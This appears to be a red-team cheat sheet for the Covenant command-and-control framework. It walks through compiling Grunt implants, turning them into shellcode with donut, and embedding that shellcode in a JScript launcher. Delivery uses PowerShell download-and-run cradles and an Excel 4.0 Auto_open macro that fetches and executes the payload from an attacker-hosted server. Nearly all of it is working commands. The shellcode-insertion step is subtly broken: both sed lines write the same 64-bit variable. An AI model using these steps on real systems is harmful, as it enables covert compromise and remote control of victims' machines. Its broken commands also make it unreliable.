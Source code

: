 #### 1. About

- URL: `https://github.com/cobbr/Covenant`
- .NET C2 framework


#### 2. Build

From: `https://github.com/cobbr/Covenant/wiki/Installation-And-Startup`

```
# git clone --recurse-submodules https://github.com/cobbr/Covenant
# cd Covenant/Covenant
# docker build -t covenant .
```


#### 3. Run

```
# cd Covenant/Covenant
# docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -d -v `pwd`/Data>:/app/Data covenant
```


#### 4. SSL Cert for HTTPs listener

```
# site='test.local'
# out='default.pem'
# openssl req \
-x509 -nodes -days 365 -sha512 \
-subj "/C=CH/ST=ZH/L=Zurich/CN=$site" \
-newkey rsa:4096 -keyout $out -out $out
# openssl pkcs12 -export -in $out -inkey $out -out default.pfx
```

- ConnectAddresses: <EXTERNAL_IP>
- ConnectPort: 443
- BindPort: 443
- BindAddress: 0.0.0.0


#### 5. Instrumentation

1. Launcher config

```
Launchers > Binary (ValidateCert: false, UseCertPinning: false)
Launchers > Binary > Code - save as GruntHTTP.cs
```

2. Compile .NET

```
PS>C:\Windows\Microsoft.Net\Framework64\v4*\csc.exe -out:grunt64.exe GruntHTTP.cs
PS>C:\Windows\Microsoft.Net\Framework64\v4*\csc.exe -platform:x86 -out:grunt32.exe GruntHTTP.cs
```

3. Use `donut` (`https://github.com/TheWover/donut/releases`) for binary obfuscation

```
PS>.\donut.exe -a2 -f1 'grunt64.exe' -o grunt64.bin
PS>.\donut.exe -a2 -f1 'grunt32.exe' -o grunt32.bin
```

4. WScript example

```
PS>powershell -c "(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/outflanknl/Scripts/master/ShellcodeToJScript.js')" > x.js
PS>wscript.exe x.js
```

5. Place encoded Grunt shell-code into launcher JS script for `wscript`

```
# wget https://raw.githubusercontent.com/outflanknl/Scripts/master/ShellcodeToJScript.js

# l32=`grep -n '^var encodedPayload32' ShellcodeToJScript.js | awk -F ':' '{print $1}'`
# l64=`grep -n '^var encodedPayload64' ShellcodeToJScript.js | awk -F ':' '{print $1}'`

# p32=`base32 -w0 grunt32.bin`
# p64=`base64 -w0 grunt64.bin`

# sed -i --expression $l32"s@.*@var encodedPayload64=\"$p32\";@" ShellcodeToJScript.js
# sed -i --expression $l64"s@.*@var encodedPayload64=\"$p64\";@" ShellcodeToJScript.js
```

6. Serve/download and run the JS file

```
# python3 -m http.server 9999

PS>powershell -c "(New-Object System.Net.WebClient).DownloadString('http://172.16.103.128:9999/ShellcodeToJScript.js')" > x.js
PS>wscript.exe x.js
```

7. Excel download and execute (Macro v4)

```
=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,"http://172.16.103.128:9999/ShellcodeToJScript.js","C:\Users\Public\Documents\jscript.js",0,0)
=EXEC("wscript.exe C:\Users\Public\Documents\jscript.js")
```
Note: remember to change `A1` to `Auto_open`
